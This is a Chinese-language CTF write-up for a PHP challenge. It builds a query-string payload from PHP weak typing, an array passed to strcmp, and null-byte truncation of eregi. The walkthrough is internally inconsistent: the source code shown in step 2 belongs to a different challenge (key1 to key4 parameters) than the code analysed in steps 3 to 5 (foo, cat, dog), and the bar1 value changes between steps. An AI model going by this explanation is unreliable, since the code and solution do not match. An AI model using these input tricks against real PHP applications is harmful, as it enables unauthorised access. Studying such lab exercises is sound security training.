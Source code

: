 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.我们点击`Source Code`可以直接看到php主要逻辑代码：

```php
<?php    
highlight_file(__FILE__);
    @$k1=$_GET['key1'];
    @$k2=$_GET['key2'];
    if(@file_get_contents($k1)==="Hello hacker!"){
        echo 'welcome! Hacker!<br>';
        if(md5($k2)>666666*666666)
        {
            include('flag.php');
            @$k3=$_GET['key3'];
            @$k4=$_GET['key4'];
            if(intval($k3)<666)
            {
                if($k3==666)
                {
                    echo 'Come on, flag is coming<br>';
                    if($k4>0)
                    {
                        if(intval($k3+$k4)<666)
                            echo $flag;
                    }
                }
            }else{
                exit();
            }
        }else{
            exit();
        }
    }else{
        exit();
    }
?>
```

3.**v1**

```php
$a=(array)json_decode(@$_GET['foo']);
if(is_array($a)){
    is_numeric(@$a["bar1"])?die("nope"):NULL;
    if(@$a["bar1"]){
        ($a["bar1"]>2016)?$v1=1:NULL;
    }
    ....
}
```
传入的`foo`，经过一次`json_decode`，然后转换成`array`。然后判断 `$a["bar1"] `是否满足 `is_numeric`，若满足则die掉。接下来又判断 `$a["bar1"] `是否大于 2016 。

利用php弱类型特性，可以设置

`$a["bar1"] = 2017a`

这样`is_numeric`时会判断其为字符串而不是数字，而在与2016的比较中，会直接转换成2017，满足大于2016。这样 v1 就被设置为 1 了。

4.**v2**

```php
if(is_array(@$a["bar2"])){
	if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
	$pos = array_search("nudt", $a["a2"]);
	$pos===false?die("nope"):NULL;
	foreach($a["bar2"] as $key=>$val){
		$val==="nudt"?die("nope"):NULL;
	}
	$v2=1;
}
```
接下来，要求`$a["bar2"]`是个数组，其中元素的个数为5个`（count($a["bar2"])!==5）`，同时要求`$a["bar2"][0]`是数组。所以我们设置:

`$a["bar2"] = [[],2,3,4,5]`

对于 `$pos = array_search("nudt", $a["a2"]);`，它搜索字符串`“nudt”`在`$a["a2"]`中的位置。若没有找到，`array_search`返回`false`，会通过严格比较导致die掉。所以这里要设置：

`$a["a2"] = “nudt”`

注意这里因为用了`$pos===false?`的严格比较，所以0不`===false`。

之后就能设置 `v2 = 1`

结合`$a`是由`json_decode`得来，所以第一个payload为：

`foo={"bar1":"2017a","bar2":[[],2,3,4,5],"a2":["nudt"]}`

5.**v3**

```php
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
	   eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	   strpos(($c[0].$d), "htctf2016")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
```

先会用`strcmp`进行比较，利用数组array和字符串进行strcmp比较会返回null，而且数组array也不会等于字符串，我们可以设置`cat[1]`为一个数组。

接下来用`eregi`对拼接后的字符串`$d.$c[0]`进行正则匹配，若匹配到则die掉。而下一步又要求拼接字符串`$c[0]`.`$d`中要有字符串`“htctf2016”`。这里利用`%00`对`eregi`的截断功能，则在正则匹配`eregi`时在开头时就匹配结束掉。

`strpos(($c[0].$d), "htctf2016")`中，还要求`“htctf2016”`不能出现在开头。

```php
$d = %00 即 dog=%00

$c[0]  = "ahtctf2016"
```
所以综上所述，构造最后的payload如下：

`?foo={"bar1":"2017e","bar2":[[],2,3,4,5],"a2":["nudt"]}&cat[0]=ahtctf2016&cat[1][]=&dog=%00`

6.获取flag：

![](files_for_writeup/2.png)

